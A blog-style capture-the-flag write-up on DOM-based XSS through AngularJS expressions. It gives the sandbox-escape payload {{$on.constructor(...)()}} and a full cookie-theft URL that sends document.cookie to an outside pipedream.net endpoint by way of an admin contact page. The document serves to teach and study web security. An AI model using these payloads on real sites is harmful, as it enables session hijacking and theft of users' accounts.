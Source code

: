 ```yaml
---
title: Angular XSS DOM BASED
description: Explanation of XSS Angular DOM based vulnerability.
date: "2022-08-07T10:00:00+02:00"

---
```



# Introduction

Tonight I'm doing another challenge for XSS vulnerabilities, specially with AngularJS which is a really common framework for developing webapps.

As you may know ["Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities"](https://en.wikipedia.org/wiki/Cross-site_scripting)
This time I had some fun with this new challenge which consisted about finding a XSS DOM-based vulnerability with ["Angular Expressions"](https://www.w3schools.com/angular/angular_expressions.asp)




## First things first!

The way Angular binds data into the HTML is via expressions, and AngularJS expressions are written in double braces `{{}}`

- As a first step (and we assume our vulnerable webapp is using Angular as the underlying technology) a `ng-app` **must appear** inside the source code. Otherwise our AngularJS expressions won't work
- Then, a vulnerable user input should be localized (in order to inject our payloads)
- Before the last step, we must ensure that the vulnerable input field is within the `ng-app` directive
- At last, let's put our XSS Payload inside braces, we can test it with one such as: `` {{$on.constructor("alert(1)")()}}`` *


* We are using "$on.constructor" in this case because we want to use dependency injection upon the new DOM node creation, you can find more info [here](https://angular.io/guide/dependency-injection#providing-dependency-1), in this case `NgOnInit` wouldn't work for us because when this latter one is called by Angular, the DOM has been already created. ["Here's an article with more information about it"](https://medium.com/angular-in-depth/the-essential-difference-between-constructor-and-ngoninit-in-angular-c9930c209a42)

### Hands on! :fire:

We have this challenge, with an input that seems to be "unsafe":  
![xss dom image 1](xssdom1.PNG)

Let's see if the response source-code contains something interesting:

![xss dom image 2](xssdom2.PNG)

Ahá! We can see the `ng-app` directive and inside it our string (my name in this case)

Let's try to put a simple payload, like the one mentioned avobe ``('{{$on.constructor("alert(\`hello!\`)")()}}')``...
![xss dom image 3](xssdom3.PNG)

And we have succesfully injected our payload.
It's clearly seen that this payload is seen in the query string part of the URI, so we can use this to steal the admin's cookie.
For this purpose we will have to do 2 things:

1. Adapt the payload to send the response to our desired endpoint (pipedream.net in my case, for simplicity's sake)  
2. Let the admin execute the payload (as this is a vulnerable site, it's done via the contact page :) )

In this example, I'm adapting the payload for stealing the cookie's admin like this:

```sh 
$<protocol>://<domain>/contact?url=[[[[PAYLOAD]]]]

# The payload can be then teared down like:
{{$on.constructor("href=`desired-endpoint.com?querystring=`.concat(admin.cookie)")()}}

# And the resulting query being:
http://vulnerable_domain.com/?url={{$on.constructor("document.location=`https://eoj1ovww5kfcgvi.m.pipedream.net?cookie=`.concat(document.cookie)")()}}"
```
Aaand... there it is!  
![xss dom image 4](xssdom4.PNG)

We have captured our :sparkles: flag! :sparkles:

## How this vulnerability could have been avoided?

There's a really simple answer: You should **avoid** allowing data from any untrusted source to be dynamically written to the HTML document!! 


Thank you for being here :heart: 
See you around!